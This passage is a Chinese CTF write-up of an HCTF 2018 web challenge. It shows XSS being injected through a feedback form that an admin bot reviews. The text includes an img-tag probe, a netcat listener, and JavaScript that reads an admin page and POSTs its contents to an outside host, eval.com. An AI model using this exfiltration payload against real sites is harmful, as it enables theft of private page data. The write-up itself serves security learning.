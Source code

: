 -----

开始做这道题，本来是因为疑似XSS，勾起了自己的兴趣。没想到越往后越坑。ruby真心没见过。最终耗时27小时，终于搞出来了，话说一血还是很开心的。

## 解题

首先分析一波整到题目，按照题目描述，这个网站是用来共享应用的。

首先用户可以向管理员反馈建议，让管理员将某应用加到网站上。

![20181111154191320686524.png](https://xzfile.aliyuncs.com/media/upload/picture/20181112141244-f830b9b0-e641-1.png)

然后管理员页面会有上传应用到网站上，以及将某应用下发给某人进行测试。

主要页面如下：

> 用户：
>
> 应用展示页：http://share.2018.hctf.io/home/publiclist
>
> 测试应用页：http://share.2018.hctf.io/home/Alphatest（管理员未下发应用时为空）
>
> 反馈建议页：http://share.2018.hctf.io/home/share

通过用户反馈页面，可以尝试插入xss。在这里用img进行测试:

```html
<img src=//eval.com:2222>
```

然后在eval.com进行监听。

```bash
nc -lnvp 2222
```

![20181111154191380138997.png](https://xzfile.aliyuncs.com/media/upload/picture/20181112141245-f870d6e4-e641-1.png)

成功收到回显，可以得知采用PhantomJS作为bot，然后尝试读取后台源码。

```js
function send(e) {
    var t = new XMLHttpRequest;
    t.open("POST", "//eval.com:2017", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.send(e);
}
function getsource(src){
	var t = new XMLHttpRequest;
    t.open("GET", src, !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.onload=function(e){
    	send(e.target.responseText);
    }
    t.send();
}
getsource("/home/publiclist");
```
